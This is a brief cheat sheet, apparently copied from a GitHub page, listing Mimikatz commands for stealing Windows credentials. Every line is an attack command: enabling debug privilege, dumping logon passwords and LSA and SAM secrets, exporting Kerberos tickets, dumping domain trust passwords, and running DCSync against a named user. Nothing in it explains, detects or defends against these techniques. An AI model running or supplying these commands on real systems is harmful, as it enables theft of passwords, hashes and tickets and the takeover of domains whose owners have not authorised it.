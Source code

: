 ## Mimikatz


```bash
privilege::debug
```
```
sekurlsa::logonpasswords
```
```
lsadump::lsa /patch
```
```
lsadump::sam
```
```
kerberos::list /export
```

#### Dumping trust passwords: 
```bash
mimikatz.exe “privilege::debug” “lsadump::trust /patch” exit
```

#### DC Sync

```bash
lsadump::dcsync /user:xyz\D2cy
```

